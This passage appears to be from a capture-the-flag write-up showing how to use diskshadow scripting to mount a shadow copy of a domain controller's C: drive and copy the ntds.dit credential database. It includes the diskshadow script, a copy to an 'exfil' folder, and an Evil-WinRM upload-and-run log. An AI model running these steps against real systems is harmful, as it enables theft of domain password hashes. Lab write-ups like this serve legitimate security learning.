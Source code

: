 > Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). By default, Diskshadow uses an interactive command interpreter similar to that of Diskraid or Diskpart. Diskshadow also includes a scriptable mode.

Because my shell is not an interactive desktop, I’ll want to use the scripting mode. It involves just putting `diskshadow` commands in a file, one per line. Pentestlab Blog has a [good breakdown](https://pentestlab.blog/tag/diskshadow/) that includes a section on using `diskshadow`. It’s written as if you have admin and just have to deal with accessing the file, so my strategy will be slightly different.

I’m going to create a file that mounts the c drive as another drive using the VSS. I’ll be able to read files from there that would be locked in c.

#### Troubleshooting

It took me a few attempts to get this to actually work. I’ll walk through them for anyone who might find it useful to see how I troubleshoot. Or, you can skip to the next section.

I started with the script from the [PentestLab blog](https://pentestlab.blog/tag/diskshadow/):

```

set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

```

It is going to fail at that `copy`, so I’ll cut that out and let it stop after mounting the shadow copy. I updated the path I wanted to copy it to, and the alias, and had:

```

set context persistent nowriters
add volume c: alias df
create
expose %df% z:

```

I’ll upload that and run it. The article recommended running out of C:\windows\system32:

```
*Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
Info: Uploading vss.dsh to c:\programdata\vss.dsh

Data: 104 bytes of 104 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  6/9/2020 8:49:56 PM
-> set context persistent nowriter

SET CONTEXT { CLIENTACCESSIBLE | PERSISTENT [ NOWRITERS ] | VOLATILE [ NOWRITERS ] }

        CLIENTACCESSIBLE        Specify to create shadow copies usable by client versions of Windows.
        PERSISTENT              Specify that shadow copy is persist across program exit, reset or reboot.
        PERSISTENT NOWRITERS    Specify that shadow copy is persistent and all writers are excluded.
        VOLATILE                Specify that shadow copy will be deleted on exit or reset.
        VOLATILE NOWRITERS      Specify that shadow copy is volatile and all writers are excluded.
```